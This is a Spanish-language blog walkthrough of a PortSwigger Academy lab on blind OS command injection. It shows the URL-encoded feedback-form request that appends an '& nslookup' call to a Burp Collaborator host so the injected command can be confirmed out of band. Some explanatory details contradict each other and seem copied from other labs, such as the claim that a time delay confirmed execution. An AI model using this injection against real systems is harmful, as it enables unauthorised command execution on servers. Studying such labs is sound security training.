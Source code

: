 +++
author = "Alux"
title = "Portswigger Academy Learning Path: OS Command Injection Lab 4"
date = "2021-12-02"
description = "Lab: Blind OS command injection with out-of-band interaction"
tags = [
    "command injection",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind OS command injection with out-of-band interaction

En este <cite>laboratorio[^1]</cite>la finalidad es obtener ejecucion de comandos en el sitio web, pero ya que no se recibe respuesta hay que realizar una consulta hacia el dns o una web para saber que se ejecuto la secuencia correctamente./

## Reconocimiento

La web cuenta con un formulario para el envio de feedback hacia el correo del servidor.

![Web](web.png)

Hasta ahi todo bien pero hace una peticion que lo que hace es enviar el correo por medio de una consulta por terminal de `mail` que es para el envio de correo por terminal linux.

![Solicitud de imagen](request.png)

El tipo de ejecucion que se hace al backend es:

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

## Explotacion

Lo que haremos es inyectar otros parametros para poder ejecutar otros comandos, y queremos ejecutar la siguiente consulta para que nos devuelva el nombre del usuario que esta ejecutando el script

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com & nslookup url.burpcollaborator.net
```

Por lo que la peticion quedaria asi (codificada en formato URL)

```
csrf=19jGeYaNMECUmKvnBJNL0vXbIEuE06Cj&name=name&email=email%40mail.com&subject=subject&message=message+%26+nslookup+co4yszdbwhw8owp25ugijgpwinoec3.burpcollaborator.net
```

Y obtenemos una ejecucion de comandos dentro del servidor, porque la respuesta ha tardado 10 segundos en contestar como se puede ver en la `esquina inferior derecha`

![Solicitud de archivo passwd](request2.png)


Y con esto hemos resuelto el lab

![Laboratorio resuelto](resuelto.png)

[^1]: [Laboratorio](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)